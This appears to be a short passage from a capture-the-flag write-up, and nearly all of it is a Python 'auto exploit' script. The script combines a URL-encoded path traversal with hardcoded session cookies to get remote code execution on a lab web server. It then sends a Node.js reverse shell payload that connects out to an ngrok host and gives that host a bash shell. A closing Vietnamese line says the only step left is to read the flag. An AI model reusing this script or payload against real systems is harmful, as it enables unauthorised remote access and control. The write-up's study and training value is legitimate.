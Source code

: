 >Script auto exploit:
```python=1
import requests
import urllib.parse

NGROK_HOST = "0.tcp.ap.ngrok.io"
NGROK_PORT = 13902

TARGET_URL = "http://172.27.128.1:8888"
PATH_TRAVERSAL = "/admin/archive/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%75%73%72%2f%73%62%69%6e%2f%63%75%72%6c"
COOKIES = {
    "session": "eyJmbGFzaCI6e30sInBhc3Nwb3J0Ijp7InVzZXIiOiJEYXQyUGhpdCJ9fQ==",
    "session.sig": "PT8NZuTWC_4qKWLaOrXppHOybbg"
}

def build_reverse_shell():
    """Build Node.js reverse shell payload"""
    payload = f"""
    var net = require("net"),
        sh = require("child_process").exec("/bin/bash");
    var client = new net.Socket();
    client.connect({NGROK_PORT}, "{NGROK_HOST}", function() {{
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    }});
    """
    return "node -e '" + urllib.parse.quote(payload).replace('%20', '+') + "'"

def exploit():
    """Execute path traversal + RCE exploit"""
    headers = {
        "Host": "172.27.128.1:8888",
        "Content-Type": "application/x-www-form-urlencoded",
        "Referer": f"{TARGET_URL}/admin/archive/.gitkeep",
        "Cookie": "; ".join([f"{k}={v}" for k,v in COOKIES.items()]),
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36"
    }
    
    payload = {
        "content": build_reverse_shell()
    }
    
    print(f"[*] Sending exploit to {TARGET_URL}{PATH_TRAVERSAL}")
    print(f"[*] Reverse shell target: {NGROK_HOST}:{NGROK_PORT}")
    
    try:
        response = requests.post(
            f"{TARGET_URL}{PATH_TRAVERSAL}",
            headers=headers,
            data=payload,
            timeout=10
        )
        print(f"[+] Exploit sent! Status code: {response.status_code}")
        print("[*] Check your listener for reverse shell connection")
    except Exception as e:
        print(f"[!] Exploit failed: {str(e)}")

if __name__ == "__main__":
    exploit()
```
Sau khi RCE thành công thì chỉ cần đọc flag nữa thôi.